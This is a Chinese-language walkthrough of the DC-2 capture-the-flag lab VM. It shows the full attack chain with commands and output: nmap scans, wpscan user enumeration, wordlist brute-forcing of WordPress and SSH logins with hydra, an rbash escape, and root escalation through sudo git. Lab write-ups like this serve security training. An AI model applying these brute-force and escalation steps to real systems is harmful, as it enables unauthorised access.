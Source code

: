 ```yaml
---
 title: DC-2靶机渗透实战
 date: 2020-02-04 19:12:33
 tags: 靶机渗透
 categories: 靶机渗透
---
```

### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-2.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A 172.16.0.12
```
Nmap scan report for localhost (172.16.0.12)
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:B7:BA:FE (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.07 ms localhost (172.16.0.12)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.58 seconds
```
发现开了80端口却无法访问，是重定向到dc-2域名，可改hosts文件访问，添加ip对应域名

win10路径： C:\Windows\System32\drivers\etc\hosts

linux路径： etc/hosts
<!--more-->

### 渗透实战
1. 查看页面为wordpress的cms且页面有flag提示
![2020-2-4-20-21-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-4-20-21-44)
- 用cewl来做字典
- 且登录进去才有可以拿到下一个flag
2. 果断用wpscan列出用户
> wpscan --url http://dc-2 -e u
```
admin
tom
jerry
```
3. 用cewl生成字典
> cewl http://dc-2 -w passwds.txt
4. 用wpscan进行用户爆破
> wpscan --url http://dc-2 -U users.txt -P passwds.tx
```
[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
5. 通过jerry用户登录后台发现flag2,提示走别的切入点
![2020-2-4-20-35-23](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-4-20-35-23)
6. 再扫描一下端口发现7744 ssh服务
> nmap -sV -p- dc-2 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-04 20:36 CST
Nmap scan report for dc-2 (172.16.0.12)
Host is up (0.00047s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:B7:BA:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.01 seconds
```
7. 尝试hydra爆破ssh
> hydra -L users.txt  -P passwds.txt dc-2 -s 7744 ssh -vV
```
[7744][ssh] host: dc-2   login: tom   password: parturient
```
- 登录ssh
> ssh tom@dc-2 -p 7744
```
tom@DC-2:~$ whoami
-rbash: whoami: command not found
tom@DC-2:~$ pwd
/home/tom
tom@DC-2:~$ ls
flag3.txt  usr
tom@DC-2:~$ cat flag3.txt
-rbash: cat: command not found
```
- 发现是一个受限的bash,直接bash绕过获取到flag3.txt内容
```
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a
$ export PATH=$PATH:/bin/
$ export PATH=$PATH:/usr/bin
$ ls
flag3.txt  usr
$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
- 提示su切换jerry，使用之前后台爆破出来的密码成功登录
```
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
- 提示最终的home，应该是要提权了，且是利用git
> find / -perm -u=s -type f 2>/dev/null
发现没有find和git命令,通过sudo查看发现jerry用户无需root密码可以执行git
> sudo -l
```
jerry@DC-2:/home$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```
8. git提权
```
sudo git -p help
!/bin/sh
```
- 直接root权限获取最终finalflag
```
ls
final-flag.txt
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.
```

